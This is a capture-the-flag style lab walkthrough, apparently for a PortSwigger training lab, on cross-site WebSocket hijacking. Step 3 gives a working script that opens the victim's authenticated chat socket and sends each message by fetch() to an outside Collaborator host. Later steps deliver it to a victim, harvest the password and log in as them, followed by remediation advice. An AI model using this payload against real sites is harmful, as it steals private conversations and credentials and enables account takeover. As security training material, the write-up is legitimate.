

# Cross-Site WebSocket Hijacking

## Lab: WebSocket Hijacking to Exfiltrate Chat History

### Objective
Exploit a cross-site WebSocket hijacking vulnerability to exfiltrate the victim's chat history, retrieve their credentials, and log into their account.

### Vulnerability Description
The live chat feature uses WebSockets for real-time messaging. The WebSocket handshake request lacks CSRF tokens, making it vulnerable to cross-site WebSocket hijacking. An attacker can force a victim's browser to connect to the WebSocket endpoint and exfiltrate their chat history, including sensitive credentials.

### Step 1: Inspect the WebSocket Communication

**1.1** Open the **Live chat** page and send a chat message.

**1.2** Reload the page. In Burp Proxy → **WebSockets history**, observe that the `READY` command retrieves past chat messages from the server.

**1.3** In Burp Proxy → **HTTP history**, find the WebSocket handshake request:
```
GET /chat HTTP/1.1
Connection: Upgrade
Upgrade: websocket
```

Notice that the request has **no CSRF tokens**.

**1.4** Right-click on the handshake request and select **Copy URL**.

### Step 2: Extract WebSocket URL via DevTools

Open browser DevTools (F12) on the chat page. Go to the **Network** tab and filter by `WS` (WebSocket). Refresh the page to capture the WebSocket connection URL:

```
wss://YOUR-LAB-ID.web-security-academy.net/chat
```

### Step 3: Craft the Exploit Payload

On the exploit server, create the following HTML/JavaScript payload:

```html
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    
    ws.onopen = function() {
        ws.send("READY");
    };
    
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-URL.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
```

| Placeholder | Replacement |
|-------------|-------------|
| `wss://YOUR-LAB-ID.web-security-academy.net/chat` | WebSocket URL from step 1 |
| `https://YOUR-COLLABORATOR-URL.oastify.com` | Burp Collaborator payload URL |

### Step 4: Test the Exploit

**4.1** Generate a Collaborator payload in Burp.

**4.2** Replace the placeholder in the exploit code.

**4.3** Click **"View exploit"** to test on yourself.

**4.4** Go to Burp Collaborator → **Poll interactions**. Verify that your chat history was exfiltrated as HTTP POST requests.

### Step 5: Deliver to Victim

**5.1** Change the email address or any identifier to match the victim.

**5.2** Click **"Deliver exploit to victim"**.

**5.3** Poll Collaborator interactions again. You receive the victim's chat history.

### Step 6: Extract Credentials

Examine the exfiltrated messages. The victim's chat with support reveals:

```
Support: Hello! How can I help you?
Victim: I forgot my password
Support: No problem. Your username is carlos and your password is: ********
```

Extract the username and password.

### Step 7: Log in as Victim

Use the stolen credentials to log into the victim's account. Lab solved.

### Attack Flow Diagram

```
Victim Browser                    Exploit Server                    WebSocket Server                    Collaborator
      │                                  │                                   │                                 │
      │ 1. Visits exploit page           │                                   │                                 │
      │─────────────────────────────────>│                                   │                                 │
      │                                  │                                   │                                 │
      │ 2. Receives malicious script     │                                   │                                 │
      │<─────────────────────────────────│                                   │                                 │
      │                                  │                                   │                                 │
      │ 3. Connects to WebSocket (no CSRF)                                   │                                 │
      │─────────────────────────────────────────────────────────────────────>│                                 │
      │                                  │                                   │                                 │
      │ 4. Sends "READY" command          │                                   │                                 │
      │─────────────────────────────────────────────────────────────────────>│                                 │
      │                                  │                                   │                                 │
      │ 5. Receives chat history          │                                   │                                 │
      │<─────────────────────────────────────────────────────────────────────│                                 │
      │                                  │                                   │                                 │
      │ 6. Exfiltrates data via fetch()  │                                   │                                 │
      │────────────────────────────────────────────────────────────────────────────────────────────────────>│
      │                                  │                                   │                                 │
      │                                  │                                   │                    7. Receives chat history │
```

### Burp Collaborator Interactions (Sample)

```
POST / (Collaborator)
Body: {"message":"READY","messages":[{"user":"Support","content":"Hello!"},{"user":"Victim","content":"I forgot my password"},{"user":"Support","content":"Your password is: supersecure123"}]}
```

### Vulnerability Summary

| Component | Issue |
|-----------|-------|
| WebSocket handshake | No CSRF tokens |
| Origin validation | Missing or bypassable |
| Authentication | Cookie-based, sent automatically |
| READY command | Exposes full chat history |

### Root Cause

The WebSocket handshake request does not verify the origin of the connection, allowing any website to initiate a WebSocket connection using the victim's existing session cookie.

### Remediation

1. **Validate Origin header** on WebSocket handshake
   ```
   Origin: https://expected-domain.com
   ```

2. **Use CSRF tokens** in the WebSocket handshake request

3. **Require re-authentication** for sensitive WebSocket actions

4. **Implement per-session secrets** – include a random token in the WebSocket URL

5. **Do not send sensitive data** via WebSocket without additional verification

### Tools Used
- Burp Suite (Proxy, WebSockets history, Collaborator)
- Browser DevTools (Network tab → WS filter)
- Exploit Server

### References
- PortSwigger Web Security Academy – Cross-site WebSocket hijacking

## Lab Solved ✓

